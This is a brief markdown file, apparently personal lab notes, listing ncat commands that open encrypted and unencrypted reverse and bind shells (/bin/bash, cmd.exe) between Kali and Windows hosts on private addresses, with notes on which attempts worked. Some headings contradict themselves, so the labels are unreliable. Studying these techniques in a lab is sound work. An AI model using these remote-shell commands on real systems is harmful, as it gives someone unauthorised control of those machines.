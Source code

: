 # Encrypted Reverse Shell from Windows to Kali

## Kali

ncat --exec /bin/bash --ssl --allow 10.11.9.175 -nvl 63389 

## Windows

ncat --ssl -v 10.11.0.190 63389


# Encrypted Bind Shell on Windows from Kali without encryption

## Windows

ncat --exec cmd.exe --ssl --allow 10.11.0.190 -nvlp 63389

## Kali

ncat -nv 10.11.9.175 63389

> Didn't work due to no `--ssl` flag


# Unencrypted Bind Shell on Windows from Kali without encryption

## Windows

ncat --exec cmd.exe --allow 10.11.0.190 -nvlp 63389

## Kali

ncat -nv 10.11.9.175 63389

> Worked.
